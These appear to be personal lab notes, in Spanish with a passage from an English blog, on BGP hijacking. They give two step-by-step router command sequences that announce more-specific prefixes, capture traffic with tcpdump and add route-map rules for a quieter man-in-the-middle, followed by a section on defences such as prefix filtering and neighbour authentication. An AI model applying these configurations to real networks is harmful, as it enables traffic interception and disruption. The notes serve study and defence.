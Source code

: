 Ataque dirigido a enrutar / redirigir todo el tráfico del resto de routes o AS para poder capturar sus paquetes. En el secuetro BGP, configuramos / anunciamos, sobre un router en el que tenemos acceso, una nueva red con una métrica menor para establecerla como la ruta más rápida. Así los demás AS utilizarán esta nueva red como la menos costosa.

** Ataque 1 **
Pudiendo operar comandos sobre el router que tenemos acceso. Entramos en la interfaz de configuración de BGP --> `vtysh`
Ver información sobre los demás neighbors --> `show bgp neighbors`
Ver las rutas establecidas --> `show ip neighbors 172.16.12.102 advertised-router`

Entramos al modo configuración general del router --> `configure terminal`
Anunciamos sobre qué router configuramos --> `router bgp 60001`
Creamos unas nuevas redes para cada conexión de interfaz que tenga, en estos casos es muy usual configurar redes con máscara de red 25 --> `network 172.16.2.0/25` ||  `network 172.16.3.0/25`
Acabamos la configuración --> `end`
Limpiamos configuraciones antiguas de BGP --> `clear ip bgp * out`

Para capturar todo el tráfico que está pasando por el router --> `tcpdump -i eth0 -A`

==============================================================================

** Ataque 2 ** 
https://neff.blog/2019/06/05/bgphijacking-part2/

`vtysh` 									// routting configuration
`configure terminal`			// edit the configuration
`router bgp 100`					// router configuration
`network 172.19.0.0/17`			// adding a network. Apply the longest prefix 
`do show running-config`	// shows config updated
`exit`										// exit of configuration terminal
`clear ip bgp * out`			// clear the bpg routing tables
`show ip bgp neighbors`		// shows neighbors info

Route Map Policies
The router begins to promote the new prefix and all of the traffic is routed to the router. As a result, the traffic does not hit the ftp server because Router 3 (R3) forwards traffic back to Router 1 (R1) due to the longest prefix match rule. Consequently, this creates an infinite loop between R1 and R3, where each router continually forwards the traffic to each other. Since this is not considered a very stealthy MITM attack, I updated the routing policies on R1 so that the router forwards traffic to R3. This allows the ftp server to receive the signal.

To update the route map policies I entered the configuration terminal once again. I defined an IP prefix called bgphijack using the following command:

`Ip prefix-list bgphijack seq 5 permit 172.19.0.0/17`

Next, I created two new policies:

-   `Route-map to-as300 deny 5`
    -   `Match ip address prefix-list bgphijack`

-   `Route-map to-as200 permit 5`
    -   `Match ip address prefix-list bgphijack`
    -   `Set community no-export`

![[Pasted image 20210914163707.png]]

==============================================================================

** Defensa contra el secuestro de BGP **
BGP es un protocolo más antiguo que fue diseñado en una época en la que la seguridad de la información no estaba tan madura. A pesar de esto, todavía hay pasos que las personas / empresas pueden tomar para protegerse de los ataques de secuestro.

* Habilitación de listas de control de acceso
Las listas de control de acceso son configuraciones en las que un enrutador puede configurar para controlar los distintos enrutadores con los que desea comunicarse. Puede bloquear el tráfico no deseado, lo que a su vez minimiza el vector de ataque en un enrutador determinado. 
Las mejores prácticas le permiten aceptar solo tráfico de vecinos BGP legítimos y autorizados.

* Habilitar el filtrado de prefijos BGP con listas de prefijos
El filtrado de prefijos es un control de acceso a los prefijos de IP. Los administradores pueden permitir o denegar prefijos específicos de cada vecino de BGP. Además, los administradores pueden prefijar el filtro definiendo las rutas de AS. Esto proporciona un paso adicional para verificar que el prefijo llega a través del AS deseado.

* Habilitación de la autenticación de vecinos de BGP
La autenticación permite que los vecinos de BGP demuestren que son legítimos y confiables.
La autenticación entre vecinos BGP generalmente ocurre cuando dos vecinos habilitan contraseñas para sus enrutadores. Sin autenticación, un atacante puede falsificar la dirección IP de un vecino. Estas contraseñas se comparten como hashes MD5, que es una debilidad de seguridad conocida. Para aumentar la seguridad, los vecinos de BGP deben considerar el uso del protocolo BGPSec o la infraestructura de clave pública de recursos.

* Habilitación del control de seguridad de Time to Live
El control de seguridad Time to Live inspecciona el valor TTL final esperado para los paquetes entrantes a un enrutador. Esto ayuda a prevenir técnicas de manipulación de rutas como la que se muestra arriba. Esta técnica se puede omitir modificando el valor TTL en el paquete. El valor TTL se puede modificar utilizando una herramienta como iptables.

* Habilitar registro
El registro se considera la mejor práctica, ya que proporciona alertas de cambios no autorizados en el vecino BGP. Esto ayuda a monitorear cualquier posible secuestro de BGP en curso.

Para obtener más información sobre cómo defenderse contra el secuestro de BGP, visite los siguientes recursos:

https://apps.nsa.gov/iaarchive/library/reports/a-guide-to-border-gateway-protocol-bgp-best-practices.cfm
https://www.cisco.com/c/en/us/about/security-center/protecting-border-gateway-protocol.html
https://tools.ietf.org/html/rfc7454